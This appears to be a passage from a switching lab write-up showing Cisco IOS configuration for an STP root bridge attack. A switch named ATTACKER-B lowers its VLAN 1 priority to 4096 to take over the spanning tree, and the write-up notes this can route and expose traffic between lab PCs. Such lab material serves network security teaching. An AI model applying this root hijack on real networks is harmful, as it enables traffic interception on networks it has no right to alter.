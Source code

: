**ATTACKER-B Configuration:**

```
ATTACKER-B> enable
ATTACKER-B# configure terminal
ATTACKER-B(config)# spanning-tree mode ieee
ATTACKER-B(config)# spanning-tree vlan 1 priority 4096
ATTACKER-B(config)# interface fa0/1
ATTACKER-B(config-if)# switchport mode access
ATTACKER-B(config-if)# exit
ATTACKER-B(config)# end
ATTACKER-B# write memory
```

#### Summarized CLI Commands

**CIT:**

```
spanning-tree mode ieee
interface fa0/1
 switchport mode access
 description Connected to PC0
```

**COS:**

```
spanning-tree mode ieee
interface fa0/1
 switchport mode access
 description Connected to PC1
```

**IRTC:**

```
spanning-tree mode ieee
interface fa0/1
 switchport mode access
 description Connected to PC2
interface fa0/2
 switchport mode access
 description Connected to ATTACKER-B
```

**ATTACKER-B:**

```
spanning-tree mode ieee
spanning-tree vlan 1 priority 4096
interface fa0/1
 switchport mode access
```

#### Behavior

- **STP Topology**: ATTACKER-B is root (Priority 4097). IRTC’s `Fa0/2` is Root Port, COS blocks `Gi0/1` (to CIT).
- **Ping Tests**: PC0 ↔ PC1, PC0 ↔ PC2, PC1 ↔ PC2 succeed but may route through ATTACKER-B, exposing traffic.
- **With ATTACKER-B**: Hijacks root, altering paths and potentially intercepting traffic.
